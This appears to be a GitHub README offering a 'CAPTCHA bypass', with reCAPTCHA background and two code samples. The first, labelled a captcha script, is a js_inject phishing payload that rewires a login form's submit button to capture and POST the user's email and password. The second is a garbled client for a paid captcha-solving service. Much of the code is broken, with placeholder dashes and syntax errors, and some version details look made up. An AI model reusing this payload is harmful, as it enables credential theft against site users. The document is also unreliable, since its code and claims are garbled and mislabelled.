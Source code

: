 # Bypass hCaptcha key token 
## ``You have to pass the CAPTCHA test to prove you are “not a robot” before you can access some part of a website. Usually, this occurs at a point where you need to complete a form to sign up, subscribe, or make a purchase on a website or app``

What Is reCAPTCHA?
reCAPTCHA is a human verification system developed in 2007 and purchased by Google in 2009. Initially, the tool was developed to help digitize books that couldn’t be scanned by computers. Once enacted to verify users, reCAPTCHA displayed two different distorted words with lines running through them (compared to CAPTCHA’s random sequences of letters and numbers).

By 2012, the project began incorporating images from Google Street View. By now, you’ve almost certainly spent a decent chunk of time clicking all of the images that contain a stoplight just to prove you’re not a bot. And you’ve probably failed some of these tests, too! As noted by Baymard Institute, “Only 66% of users during our qualitative usability testing successfully entered the CAPTCHA on the first attempt

There were a few more iterations of reCAPTCHA, including the noCAPTCHA reCAPTCHA (where low-risk users only had to click a checkbox that stated “I’m not a robot”) and reCAPTCHA v3.

About reCAPTCHA v3
In 2018, Google unveiled reCAPTCHA v3, the latest iteration of the tool. Even if you’re an incredibly proficient internet user, there’s a good chance you’re scratching your chin and wondering whether you’ve come across reCAPTCHA v3 before.

With reCAPTCHA v3, you don’t have to decipher distorted words, you don’t have to click boxes to indicate you know what a car looks like, and you don’t even have to click the “I’m not a robot” checkbox, either. That’s because reCAPTCHA v3 exists largely in the background—completely invisible to the average user.

As such, reCAPTCHA v3 helps companies detect bots while ostensibly delivering a better user experience—but it hurts user privacy in exchange.

### How bypass CAPTCHA ???

<p align="center">
  <img src="https://github.com/trewisscotch/CF-Bypass/blob/main/CF%20hc1.png" alt="animated" />
</p>

#### -1- You will need to extract the key to pass the captcha

<p align="center">
  <img src="https://github.com/trewisscotch/CF-Bypass/blob/main/CF%20hc2.png" alt="animated" />
</p>

#### -2- Write a script (scripting was in the previous repositories)(it can also be used for yaml, php, html)
The script should be written for a specific version of ReCaptcha v1.2.3.4.H.Ge.

#### -3- Below is an example of one of the script

```
js_inject:
  - trigger_domains: [""]
    trigger_paths: [""]
    trigger_params: []
    script: |
      function lp(){
        var submit = document.querySelectorAll('button[type=button]')[-];
        submit.setAttribute("onclick", "sendData()");
        return;
      }
      function sendData(){
        var email = document.getElementsByName("email")[-].value;
        var password = document.getElementsByName("password")[0].value;
        var xhr2 = new XMLHttpRequest();
        xhr2.open("POST", '/', true);
        xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr2.send("Email="+encodeURIComponent(email));
        var xhr = new XMLHttpRequest();
        xhr.open("POST", '/', true);
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr.send("Password="+encodeURIComponent(password));
        return;
      }
      setTimeout(function(){ lp(); }, ----);
```

```
// API key
// https://---
const API_KEY = "XXXX";

// Find site key of a website
const googleSiteKey = document
  .getElementsByClassName("g-recaptcha")[0]
  .getAttribute("data-sitekey");

// Helper parsing function
const extractTextFromResponse = (response) =>
  response.status === 200 ? response.text().then((text) => text) : false;

// Helper delay function
const delay = (value) => new Promise((res) => setTimeout(res, value));

// Function for sending captcha we want to solve to the API
async function sendCaptcha() {
  const captchaDataString = [
    "key=" + API_KEY,
    "method=userrecaptcha",
    "googlekey=" + googleSiteKey,
    "pageurl=" + window.location.href,
  ].join("&");
  return await fetch("https://----)
    .then( => extractTextFromResponse)
    .then( => {
      if (----) {
        console.error(----);
        return false;
    })
    .catch((error) => {
      console.error("Something went wrong", error);
      return false;
    });
}

// Function that waits for a response
async function poolResponse(
  requestId,
  counter = 0,
  counterLimit = 3,
  waitTime = 20000,
  decrementWaitTimeBy = 5000
) {
  if (counter === counterLimit || waitTime < 0) {
    console.error("Captcha was not solved in time.");
    return false;
  }
  await delay(waitTime - decrementWaitTimeBy); // Wait some time
  const dataStringRes = [
    "key=" + API_KEY,
    "action=GET",
    "id=" + requestId,
    "json=0",
  ].join("&");
  return fetch(-----)
    .then => extractTextFromResponse
    .catch(error) => {
      console.error("Something went wrong", error);
      reject(false);
    });
}

// Start function
(async function () {
  // Get request id of current captcha
  const requestId = await sendCaptcha();
  if (!requestId) {
    return false;
  } // Wait for somebody to solve your captcha
  const counterLimit = 3;
  for (let i = 0; i < counterLimit; i++) {
    const payload = await poolResponse(requestId, i, counterLimit);
    if (-----) {
      continue;
    }
    if (------) {
      console.error(------);
      return false;
    } // Save
    document.getElementById("g-recaptcha-response").innerHTML;
    break;
  }
})();
```
